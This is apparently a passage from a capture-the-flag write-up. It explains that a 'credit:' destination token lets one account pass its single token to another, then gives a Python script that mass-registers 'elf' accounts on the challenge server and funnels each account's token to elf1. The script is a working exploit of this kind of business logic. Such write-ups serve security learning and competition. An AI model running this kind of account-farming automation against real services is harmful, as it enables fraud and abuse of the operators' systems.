 I tried several of the options which had 12 chars in length and with credit:santa I could transfer the 1 token to santa. This also worked with my own accounts, so after registering accounts A and B, I could transfer 1 token from A using credit:B, so B had 2 tokens. So I wrote a script to create 5000 elfs and transfer all their tokens to elf1:


```python
#!/usr/bin/python3 -u

import requests

url_reg = 'http://3.93.128.89:1212/?page=AsJ3r-FY6M-iZclFSWlkKzFBcTAwM009LNlBVUUgW8yvugAgfTu43w'
url_post_login = 'http://3.93.128.89:1212/?page=Qyx7zn071CqWrsuANElMa0ZsWT0p_sEa0UpGx3yowQrdzlYe'
url_post_transfer = 'http://3.93.128.89:1212/?page=r21aC1BxNkrFL_5xODJTOUsvakVldz09bFdDVeFIdFUWBIt3AWBLoA'
url_post_logout = 'http://3.93.128.89:1212/?page=Q5QBXjqqlLrlXHO2Z0dndU04a3IN-Y31yyKzEEYHgH-rXH2y'

pwd="q"

#cred_dest="7jJaQ3NaO1k9gUSCRE44cktlcEQrN2N5JDVb1k5Rqzdsm9YMhEGfWw"
# credit:elf1
cred_dest="z24KXwTpx-gkAiXkOTFNL3ZVbm43UHhWNE1VPQalAk-qDBMW6aCOB8byFFQ"

def reg(session, user):
    url = url_reg
    print("posting URL reg: " + url )
    resp = session.post(url,  data={'username' : user, 'password': pwd, 'confirm': pwd } )
    print("---------------------------------------------------------------------------")
    #print(resp.headers)
    #print(resp.text)

def login(session, user):
    url = url_post_login
    print("posting URL login: " + url )
    resp = session.post(url,  data={'username' : user, 'password': pwd } )

def transfer(session):
    # sample post params: credits=71&destination=NUts5_GLaJyjdIXad05QT0c4bVhGSnZqZ1VOVZYcaCAHCFVD0GQhkJJ2uiI
    url = url_post_transfer
    print("transfering credits to: " + cred_dest )
    print("posting URL transfer: " + url )
    resp = session.post(url,  data={'credits' : 1, 'destination': cred_dest } )
    print("---------------------------------------------------------------------------")
    #print(resp.headers)
    #print(resp.text)

def logout(session, user):
    url = url_post_logout
    print("postting URL logout: " + url )
    resp = session.post(url)

#for usernum in range(5001):
for usernum in range(14):
    session = requests.Session()
    user="elf" + str(usernum)
    print("doing user: " + user)
    reg(session, user)
    login(session, user)
    transfer(session)
    logout(session, user)

```
